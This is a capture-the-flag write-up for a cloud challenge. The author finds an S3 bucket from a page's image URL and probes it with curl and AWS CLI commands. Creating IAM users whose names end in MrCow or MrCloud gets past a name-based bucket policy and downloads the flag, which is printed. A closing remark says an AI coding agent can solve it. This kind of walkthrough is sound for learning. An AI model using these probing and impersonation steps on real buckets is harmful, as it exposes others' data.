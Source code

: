 
## [Cloud Security] Iam Mr.Cow and Mr.Cloud

```
Iam Mr. Cow or Mr. Cloud?

- Author: Mr.Cow
- 498 Points (9 Solves)
- ★★★★


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.
```


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.

---


## Hints:
1. PS: You’ll want your own AWS playground for this—signing up for a free account (no charges for basic CLI calls) is enough. Once you’re there, remember that aws s3api get-bucket-policy is often the first polite knock on a guarded door.

2. The vault responds to IAM principals whose ARN names end in MrCow or MrCloud; tailor your profile suffix and each guardian reveals their part.

---

# Observations:

When downloading the zip, we are greeted with a index.html file. Opening it in a browser, shows a simple webpage with an SVG image.


![image](/cuhk25ctf/iam_mrcow_and_mrcloud/cowcloud.svg)

[index.html](/cuhk25ctf/iam_mrcow_and_mrcloud/index.html)

Aside from that, the title of this challenge starts with IAM, which is a service in AWS for Identity and Access Management. This hints that we might be dealing with access permissions.

---

# Solution:

## Step 1: Inspection

The SVG image has s3://assets/ written on it. This should be referring to the S3 bucket of AWS.

Inspecting the page source, we see that the <img> tag has a src attribute with the value of <img src=[https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg](https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg) />.

The URL is pointing to an S3 bucket named mr-cow-or-mr-cloud-secret-20250916-a1 in the us-east-1 region.

## Step 2: Accessing the S3 Bucket

We can first attempt to publicly access this file:

```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg"
```

From the results, we can see we can publicly access it.

```
<?xml version="1.0" encoding="UTF-8"?>
<svg width="640" height="360" viewBox="0 0 640 360" xmlns="http://www.w3.org/2000/svg">
  <defs>
    ... (etc) ... 
```

We now try accessing other files such as flag.txt:
```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/flag.txt"
```

We get an Access Denied error. Rip :(
```
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message><RequestId>N94ZHM5K3BDNM09Q</RequestId><HostId>93pEPa99upHuWWYa6sTij+oR/z0Lwq1DDnCyWyKTnKwshx1g+6TyjuN8nPi9V31h8g9UNqWYG8o=</HostId></Error>
```

This means other files require permissions to access.

## Step 3: Understanding the Bucket Policy
Since the hints suggest we need an IAM profile of our own, we can make an account on AWS and create two profiles with the suffix of MrCow or MrCloud.

Any IAM profile name is fine, as long as it ends with MrCow and MrCloud respectively.

For my case, I used TestMrCow and TestMrCloud.


```sh
# Configure TestMrCow profile
aws configure set aws_access_key_id <redacted> --profile TestMrCow
aws configure set aws_secret_access_key <redacted> --profile TestMrCow
aws configure set region us-east-1 --profile TestMrCow

# Configure TestMrCloud profile
aws configure set aws_access_key_id <redacted> --profile TestMrCloud
aws configure set aws_secret_access_key <redacted> --profile TestMrCloud
aws configure set region us-east-1 --profile TestMrCloud
```

To confirm that we are signed in:

```sh
aws sts get-caller-identity --profile TestMrCow
aws sts get-caller-identity --profile TestMrCloud
```

```
{
    "UserId": "AIDATJS2C3YDDIAQO4SOC",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCow"     
}
{
    "UserId": "AIDATJS2C3YDJJ6L2GSSN",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCloud"   
}
```

Now, let's test the access permissions of both profiles.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCow
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We get Access Denied.

Now, let's try the other profile.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCloud
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We also get Access Denied.

The hint said we should try to get the bucket policy to understand the access rules.

```sh
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCow
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCloud
```

```
An error occurred (AccessDenied) when calling the GetBucketPolicy operation: Access Denied
An error occurred (MethodNotAllowed) when calling the GetBucketPolicy operation: The specified method is not allowed against this resource.
```

Weird! For the TestMrCow profile, we get Access Denied, but for the TestMrCloud profile, we get MethodNotAllowed.

This means that the bucket policy is denying access to TestMrCow, but allowing TestMrCloud to access it.

Let's try to access the objects directly instead of listing them.

```sh
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCow
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCloud
```

```
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
Completed 42 Bytes/42 Bytes (43 Bytes/s) with 1 file(s) redownload: s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt to ./flag.txt
```

Oh! We managed to download the flag.txt file!

```
cuhk25ctf{m00n_m45k5_h1d3_th3_cl0ud_g4t3s}
```

*Fun fact, this challenge is solvable by using Github Copilot Agent Mode XD*